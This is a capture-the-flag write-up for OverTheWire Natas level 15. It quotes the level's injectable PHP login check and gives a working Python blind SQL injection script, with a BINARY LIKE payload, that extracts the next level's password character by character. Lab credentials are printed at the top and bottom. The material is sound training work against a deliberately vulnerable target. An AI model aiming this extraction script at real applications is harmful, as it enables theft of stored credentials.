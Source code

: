 <h2>🔰 Level - 15</h2>

- username - natas15
- password - TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB

	There was an input field. We could enter a username and it replies with whether the user exists or not. 
	Sourcecode:
	```php
	/*
	CREATE TABLE `users` (
	  `username` varchar(64) DEFAULT NULL,
	  `password` varchar(64) DEFAULT NULL
	);
	*/

	if(array_key_exists("username", $_REQUEST)) {
	    $link = mysqli_connect('localhost', 'natas15', '<censored>');
	    mysqli_select_db($link, 'natas15');

	    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
	    if(array_key_exists("debug", $_GET)) {
	        echo "Executing query: $query<br>";
	    }

	    $res = mysqli_query($link, $query);
	    if($res) {
	    if(mysqli_num_rows($res) > 0) {
	        echo "This user exists.<br>";
	    } else {
	        echo "This user doesn't exist.<br>";
	    }
	    } else {
	        echo "Error in query.<br>";
	    }

	    mysqli_close($link);
	} else {
	?>
	
	```
	From sourcecode, its clear that simple SQL Injection won't work as query results are not directly displayed. Only whether user exists or not, is displayed. <br>

	On watching some walkthroughs, got to know about a technique called "Blind SQL Injection". Here, we dont try to access query results. We blindly make queries with what info we have (like flag format) and, check for validations and piece together info or error message from each query result. <br>

	Here, we know flag is a string of length 32 consisting of lower and uppercase alphabets, and numbers 0-9 <br>

	Now we have to modify the query. User 'natas16' exists. So corresponding password value is to be obtained. We have to check character by character if it exists in 'password' of user 'natas16'. This can be done by pattern matching options in SQL. <br>


	Made a python script to do this in repeat, until entire password can be obtained. <br>

	```python
	import requests

	url = "http://natas15.natas.labs.overthewire.org/"

	username = 'natas15'
	curr_passwd = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"

	session = requests.Session()

	character_list = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

	nxt_passwd = ''

	while (len(nxt_passwd) < 32):
		for ch in character_list:
			print(f"trying {ch}")
			data = {"username":f'natas16" AND BINARY password LIKE "{nxt_passwd+ch}%" #'}  #BINARY to make query case sensitive
			response = session.post(url, auth = (username, curr_passwd), data = data)
			if ("user exists" in response.text):
				nxt_passwd += ch
				break
		print(nxt_passwd)
	content = response.text

	print("\n\n\nFinal Password for Natas 16:", nxt_passwd)

	```

	This script initiates connection. Then loops over all possible characters, making request with each character as data.
	The editd query `'natas16" AND BINARY password LIKE "{nxt_passwd+ch}%" #'` 

	This means the user is natas16 and password of natas16 consists of password as of now + current character.
	This evaluates to true if each character is in the password of natas16.

	Finally prints out the password.

Password for level 16 - TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
